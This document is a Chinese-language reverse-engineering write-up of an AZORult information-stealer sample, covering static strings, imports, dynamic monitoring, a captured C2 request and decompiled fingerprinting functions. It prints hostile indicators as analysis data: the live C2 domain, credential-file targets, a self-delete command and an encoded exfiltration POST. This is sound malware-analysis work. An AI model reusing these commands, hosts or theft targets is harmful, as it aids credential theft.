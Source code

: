 # 一个azorult样本分析

## 0. 前言

根据百度，azorult是一种信息窃取的恶意软件。

该样本来自[ANY.RUN](https://app.any.run/tasks/b9ac50cb-2737-4270-be47-63a8f1b6352e/#)，标签有`trojan`、`rat`、`azorult`，文件名`unommbZo.exe`，md5: `4e1e1e459fef0e525f79f5747fa2f69a`。样本可直接在附件下载`unommbZo.bin.zip`，解压密码为`infected`。

## 1. 基本静态分析

### 1.1 PEiD结果

![image-20200918111338217](./img/unom-peid.png)

所以程序使用Delphi开发的，里面可能存在base64编码。

### 1.2 包含的字符串

经PEid检测，样本未加壳，使用`strings`工具查看其包含的字符串：

```bash
2C5A87CB-758C-7293-47BC-475C65D699A584C5-7DC6-DC45-12A47C7DB587-F89F-78CD-96CA-FD478543C7F4		# 不知道是什么，看起来很可疑的样子
SOFTWARE\Borland\Delphi\RTL
SOFTWARE\Microsoft\Windows NT\CurrentVersion
SOFTWARE\Microsoft\Cryptography
Software\Martin Prikryl\WinSCP 2\Sessions\		# 注册表？
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/	# base64编码
%APPDATA%\.purple\accounts.xml
%TEMP%\curbuf.dat
https://dotbit.me/a/
http://ip-api.com/json		
kirill0v.beget.tech			# 可疑的网址
/c %WINDIR%\system32\timeout.exe 3 & del "		# 执行的命令
User-agent: 
Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.1)		# 硬编码的请求头
PasswordsList.txt		# 文件名
```

除了上面的这些结果外，字符串输出中还包含一些进行了base64编码的变量名、注册表信息，目前还不知道有什么用。除此之外，还包含带有通配符的文件名，这里不再一一列举。

### 1.3 导入函数信息

```bash
ReleaseDC	GetSystemMetrics	GetDC		# 获取屏幕信息，截图？
GetComputerNameW	GetUserNameW			# 收集系统信息
FindFirstFileW	FindNextFileW	CreateFileW	CopyFileW		# 文件操作
GetTickCount	QueryPerformanceCounter		# 反调试？
Process32FirstW	Process32NextW	CreateProcessW		# 进程操作
RegCreateKeyExW	RegQueryValueExW	RegCloseKey	RegOpenKeyExW	# 注册表操作
CryptAcquireContextA	CryptCreateHash	CryptHashData
CryptGetHashParam	CryptDestroyHash	CryptReleaseContext		# 加密操作
ShellExecuteExW		# 命令执行
wsock32.dll		wininet.dll		# 网络操作
```



除了上面的两项信息之外，从PEView中查看该样本的`IMAGE_OPTIONAL_HEADER`，可以看出样本是一个Windows GUI程序。

## 2. 基本动态分析

一开始我用`ApateDNS`和`Inetsim`搭建了一个虚拟的网络环境，然后用`Wireshark`抓包，火绒剑进行监控，可以发现样本做了一些信息收集和联网操作，但是因为无法从C2服务器上获得进一步信息，所以我对于样本的分析也不完整。最后我为虚拟机设置了一个桥接的网卡，直接连接外网，想看一下样本和服务器的通信情况。

### 2.1 火绒剑输出

下面是有关注册表的一些操作，样本查询了大量的注册表值，这里应该是在收集信息：

![image-20200918193231447](./img/unom-huorong1.png)

还可以看到`svchost.exe`进程也打开了`unommbZo`进程：

![image-20200918193723288](./img/unom-huorong2.png)

以及联网操作：

![image-20200918194258739](./img/unom-huorong3.png)

可以看到样本和`kirill0v.beget.tech/index.php`建立 了连接，接下来看一下联网操作发送了什么内容。

### 2.2 Wireshark抓包

![image-20200918103038801](./img/unom-wireshark.png)

上图是抓包结果，完整的请求如下：

```
POST /index.php HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.1)
Host: kirill0v.beget.tech
Content-Length: 91
Cache-Control: no-cache

...E..&f.&f.F..0l.1..0f.0a.0f.&f.F..0c.1..0l.0e.&f.B..&f.&g.E..@..Ap.;p.G..&f.Fp.3p.;p.6p.5
```

明文看不出什么信息，所以可能进行了编码或者加密。

遗憾的是，连接已经关闭了：

![image-20200918194436627](./img/unom-wireshark2.png)

所以我最终是从ANY.RUN上把C2服务器返回的内容下载了下来，你可以从附件获取该内容`index.php.zip`，解压密码为`infected`。

## 3. 详细分析

### 3.1 主函数

先把服务器的响应放到一边，看一下样本的详细内容。由于这个样本是用Delphi编译的，因此`IDA`的分析效果不是特别好，同时使用`IDR`和`Ollydbg`协助分析。

将样本导入`IDA`后，发现入口点的`start`函数中，在`InitExe`和`Halt0`之间，只调用了一个函数`sub_419108`，这应该就是主函数了，重命名为`main_function`，然后双击进入该函数。

![image-20200918104904807](./img/unom-ida1.png)

下图显示了`main_function`的前半部分，基本覆盖了从样本开始执行到接收从C2服务器发过来的响应这一部分内容，本文就分析这一段内容。

![image-20200918201306881](./img/unom-ida2.png)

### 3.2 sub_407D24

第一个样本内函数调用已经进行了重命名，为`load_kernel32`。直接看下一个函数`sub_407D24`，该函数内调用了三次`sub_407B78`，在OD中分析该函数：

![image-20200918203307295](./img/unom-od1.png)

之后，该函数还调用了`CheckTokenMembership`和`FreeSid`，它在检查用户权限。

除了调用三次`sub_407B78`外，该函数还调用了一次`sub_407C58`，这两个函数的结构类似，只不过后者检查的是系统权限：

![image-20200918204040432](./img/unom-od2.png)

所以得到了函数`sub_407D24`的完整流程为：

![image-20200918204240225](./img/unom-ida4.png)

### 3.3 sub_406C4C

看一下这个函数的主体：

![image-20201011032950866](./img/unom-ida5.png)

变量`v14`、`v15`、`v16`、`v17`分别通过四个不同的函数获得，然后传到了变量`v18`、`v19`、`v20`、`v21`中，最后通过函数`sub_406258`进行了一些处理，之后是一些字符串处理函数。

前四个函数中，`sub_406E70`和`sub_406BB4`中有类似的函数调用：

```c
// sub_406E70
sub_406DAC(0x80000002, (int)L"SOFTWARE\\Microsoft\\Cryptography", (int)L"MachineGuid", v1);
// sub_406BB4
return sub_407500(
           (char *)0x80000002,
           (int)L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion",
           (int)L"ProductName",
           0,
           a1);
```

我猜测这里应该是在做注册表的查询，在OD中查看，可以发现`sub_406DAC`调用了`RegOpenKeyExW`和`RegQueryValueExW`函数，返回值是一个unicode字符串`934c0b13-8e19-4e5b-b313-f8a8f40cc695`，就是该注册表的值：

![image-20200918204040433](./img/unom-od3.png)

这次先看一下`SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\ProductName`的值：

![unom-regedit](./img/unom-regedit.png)

直接在OD中查看`sub_406BB4`的返回值：

![unom-od4](./img/unom-od4.png)

剩下的两个函数主要是调用了系统的API：`GetUserNameW`和`GetComputerNameW`，从OD中也可以验证这一点：

![image-20201011042359288](./img/unom-od5.png)

然后看重复调用了五次的函数`sub_406258`：

![image-20201011042719492](./img/unom-sub406258.png)

可以看到它主要只调用了一个函数`sub_4061E0`，而这个函数的主体做了一个编码：

![image-20201011042913103](./img/unom-ida6.png)

所以函数的后半部分进行了一些编码和组合：

![image-20201011044522698](./img/unom-od6.png)

综上，函数`sub_406c4c`完成了以下功能：

![image-20201011045034827](./img/unom-ida7.png)